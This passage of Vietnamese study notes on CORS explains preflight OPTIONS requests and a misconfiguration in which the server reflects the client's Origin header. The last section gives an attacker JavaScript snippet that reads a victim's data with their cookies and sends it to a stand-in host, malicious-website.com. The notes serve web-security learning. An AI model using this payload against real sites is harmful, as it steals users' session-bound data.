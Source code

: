   - Gửi body có Content-Type đặc biệt (application/json chẳng hạn)
 
- Lúc này trình duyệt sẽ gửi một request "thăm dò" trước (pre-flight) với method OPTIONS để hỏi server có cho phép request chính hay không.

- Ví dụ:

  ```http
  OPTIONS /data HTTP/1.1
  Host: target.com
  Origin: https://normal-website.com
  Access-Control-Request-Method: PUT
  Access-Control-Request-Headers: Special-Request-Header
  ```

  Access-Control-Request-Method: method thực sự sẽ dùng sau này (PUT)
  
  Access-Control-Request-Headers: các header custom sẽ gửi sau

  Và response từ server:

  ```http
  HTTP/1.1 204 No Content
  Access-Control-Allow-Origin: https://normal-website.com
  Access-Control-Allow-Methods: PUT, POST, OPTIONS
  Access-Control-Allow-Headers: Special-Request-Header
  Access-Control-Allow-Credentials: true
  Access-Control-Max-Age: 240
  ```

  Nếu server từ chối, trình duyệt sẽ chặn luôn, không gửi request thật đi.

---

## Vulnerabilities arising from CORS configuration issues

### Server-generated ACAO header from client-specified Origin header

- Bình thường: Server phải có danh sách các domain tin tưởng (whitelist), ví dụ chỉ https://app.trusted.com.

- Nhưng: Để tiện và đỡ phải quản lý, một số dev viết kiểu: "Bất cứ Origin nào gọi tới cũng được, chỉ cần mình đọc giá trị trong header Origin của request và gửi trả lại trong header Access-Control-Allow-Origin."

- Do đó, ta chỉ cần dụ victim truy cập vào trang của mình (malicious-website.com) với đoạn JS sau:

  ```javascript
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('GET','https://vulnerable-website.com/sensitive-victim-data',true);
  req.withCredentials = true; // gửi kèm cookie session của victim
  req.send();
  
  function reqListener() {
    // Gửi dữ liệu đọc được từ nạn nhân về server attacker
    location='//malicious-website.com/log?key='+this.responseText;
  };
  ```
